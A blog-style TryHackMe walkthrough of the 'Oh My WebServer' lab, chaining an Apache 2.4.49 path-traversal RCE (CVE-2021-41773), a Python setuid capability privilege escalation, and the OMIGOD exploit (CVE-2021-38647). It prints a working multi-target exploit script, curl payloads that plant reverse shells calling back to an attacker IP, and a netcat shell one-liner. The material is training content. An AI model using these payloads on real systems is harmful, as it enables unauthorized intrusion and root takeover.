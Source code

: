 ```yaml
---
layout: post
title:  "Oh My WebServer"
categories: [tryhackme]
tags: [linux,omigod,container,capabilities,cve]
---
```



You can find this machine here : `https://tryhackme.com/room/ohmyweb`

### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ sudo nmap -Pn -sV ohmyweb.thm

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
```

### Directory Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$  dirb http://ohmyweb.thm/

URL_BASE: http://ohmyweb.thm/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://ohmyweb.thm/ ----
==> DIRECTORY: http://ohmyweb.thm/
+ http://ohmyweb.thm/cgi-bin/ (CODE:403|SIZE:199
```

### Wappalyzer - Port 80

![image]( /assets/img/ohmy/0.PNG)

### Searching


Search : `Apache httpd 2.4.49 exploit`
Result : `https://www.exploit-db.com/exploits/50383`

### Apache HTTP Server 2.4.49 - Path Traversal & RCE

CVE : `CVE-2021-41773`

```bash
#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
echo $host
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done
```

```bash
┌──(kali㉿Zeus)-[~/Desktop]
└─$ ./ohmyweb.sh targets.txt /bin/sh "whoami;id"
ohmyweb.thm
daemon
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

![image]( /assets/img/ohmy/1.PNG)

#### Reverse Shell Creation

Source : `https://www.youtube.com/watch?v=WSVcuV2Wc58`

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; echo "#!/bin/bash" > /tmp/alienum.sh'
```

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; echo "bash -i >& /dev/tcp/10.18.45.56/4444 0>&1" >> /tmp/alienum.sh'
```

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; cat /tmp/alienum.sh'
```

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; bash /tmp/alienum.sh'
```

![image]( /assets/img/ohmy/2.PNG)

#### Better Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo;fg
ENTER
export TERM=xterm
export HOME=/home
```

### LinPeas 

![image]( /assets/img/ohmy/4.PNG)

```bash
Files with capabilities (limited to 50):
/usr/bin/python3.7 = cap_setuid+ep
```

#### Linux Capabilities - Privileges Escalation 

```bash
daemon@4a70924bafa0:~$ getcap -r / 2>/dev/null
/usr/bin/python3.7 = cap_setuid+ep
daemon@4a70924bafa0:~$
```

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### User Owned - Proof

![image]( /assets/img/ohmy/5.gif)


### Found IP

![image]( /assets/img/ohmy/8.PNG)


### Host Discovery

- awk

```bash
awk 'function hextodec(str,ret,n,i,k,c){
    ret = 0
    n = length(str)
    for (i = 1; i <= n; i++) {
        c = tolower(substr(str, i, 1))
        k = index("123456789abcdef", c)
        ret = ret * 16 + k
    }
    return ret
}
function getIP(str,ret){
    ret=hextodec(substr(str,index(str,":")-2,2)); 
    for (i=5; i>0; i-=2) {
        ret = ret"."hextodec(substr(str,i,2))
    }
    ret = ret":"hextodec(substr(str,index(str,":")+1,4))
    return ret
} 
NR > 1 {{if(NR==2)print "Local - Remote";local=getIP($2);remote=getIP($3)}{print local" - "remote}}' /proc/net/tcp 
```

![image]( /assets/img/ohmy/13.PNG)

- arp

```bash
root@4a70924bafa0:~# arp -a
ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1) at 02:42:1e:60:bf:4a [ether] on eth0
```

![image]( /assets/img/ohmy/14.PNG)


### Port Scan

Binary here : `https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap`

```bash
curl 10.18.45.56/nmap -o nmap
```

![image]( /assets/img/ohmy/15.PNG)

- Starting the Scan

```bash
root@4a70924bafa0:~# ./nmap 172.17.0.1 -p- --min-rate 4000

PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
```

![image]( /assets/img/ohmy/16.PNG)

### Identify The Service (Port 5986)

![image]( /assets/img/ohmy/17.PNG)

![image]( /assets/img/ohmy/18.PNG)

### OMIGOD Unauthenticated RCE

- Source : `https://github.com/AlteredSecurity/CVE-2021-38647`
- Source : `https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure/`

```bash
wget https://raw.githubusercontent.com/AlteredSecurity/CVE-2021-38647/main/CVE-2021-38647.py
python3 -m http.server 80
```

```bash
curl 10.18.45.56/CVE-2021-38647.py -o exploit.py
```

![image]( /assets/img/ohmy/19.PNG)

```bash
python3 exploit.py -t 172.17.0.1 -p 5986 -c 'id'
```

![image]( /assets/img/ohmy/20.PNG)

### Reverse Shell - Root Owned

```bash
python3 exploit.py -t 172.17.0.1 -p 5986 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.18.45.56 6666 >/tmp/f'
```

![image]( /assets/img/ohmy/21.PNG)